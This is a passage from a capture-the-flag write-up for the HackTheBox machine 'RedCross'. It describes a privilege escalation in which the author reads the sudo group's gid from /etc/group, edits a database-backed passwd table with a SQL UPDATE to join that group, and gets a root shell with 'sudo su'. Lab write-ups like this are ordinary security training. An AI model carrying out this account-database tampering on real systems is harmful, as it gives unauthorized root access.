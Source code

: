 #### We can't also `sudo` :
![](/images/hackthebox/redcross/52.png)
#### Weird , I checked `/etc/sudoers` and saw this line :
![](/images/hackthebox/redcross/53.png)
#### If we got the `gid` of the group `sudo` , we will be able to run sudo. 
`cat /etc/group | grep sudo`
![](/images/hackthebox/redcross/54.png)
#### The `gid` is `27` , let's return to the database and change our `gid` from `0` to `27` :
`update passwd_table set gid=27 where gid=0;`
![](/images/hackthebox/redcross/55.png)
<br>
`select * from passwd_table;`
![](/images/hackthebox/redcross/56.png)
#### Great , let's terminate our ssh connection and login again. We are now a member of `sudo` and we can run `sudo` , so `sudo su` will give us a root shell.
![](/images/hackthebox/redcross/57.png)
#### Let's read the user flag :